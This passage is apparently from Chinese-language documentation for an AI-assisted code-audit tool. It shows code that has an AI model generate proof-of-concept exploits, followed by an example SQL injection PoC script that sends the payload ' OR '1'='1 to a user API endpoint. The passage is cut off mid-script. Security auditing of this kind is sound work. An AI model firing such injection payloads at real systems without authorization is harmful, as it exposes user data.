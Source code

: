 ```python
        
        response = await self.ai_client.generate(
            prompt=prompt,
            model="claude-3-sonnet-20240229",
            temperature=0.3  # 低温度保证准确性
        )
        
        return self._parse_poc_from_response(response)
```

**POC代码示例（SQL注入）**：

```python
#!/usr/bin/env python3
"""
POC for SQL Injection Vulnerability in UserController.getUser()
CVE: N/A (Internal Finding)
Severity: HIGH
Discovered by: Code Audit MCP

⚠️  WARNING: This POC is for authorized security testing only.
⚠️  Unauthorized use may violate laws and regulations.
"""

import requests
import argparse

class SQLInjectionPOC:
    """
    SQL注入POC - 基于真实代码路径
    
    漏洞路径:
    1. UserController.getUser(@RequestParam String id)  [Source]
    2. UserService.findUser(String userId)              [Propagator]
    3. UserRepository.query(String userId)              [Sink]
       - SQL: "SELECT * FROM users WHERE id = '" + userId + "'"
    """
    
    def __init__(self, target_url: str):
        self.target_url = target_url
        self.session = requests.Session()
    
    def test_basic_injection(self):
        """
        测试1: 基础SQL注入测试
        Payload: ' OR '1'='1
        预期: 返回所有用户数据（证明注入成功）
        """
        print("[*] Testing basic SQL injection...")
        
        # 基于真实参数名构造payload
        payload = "' OR '1'='1"
        
        try:
            response = self.session.get(
                f"{self.target_url}/api/user",
                params={"id": payload},  # 真实的参数名
                timeout=10
            )
            
            if response.status_code == 200:
                data = response.json()
                if isinstance(data, list) and len(data) > 1:
                    print(f"[+] SQL Injection CONFIRMED!")
```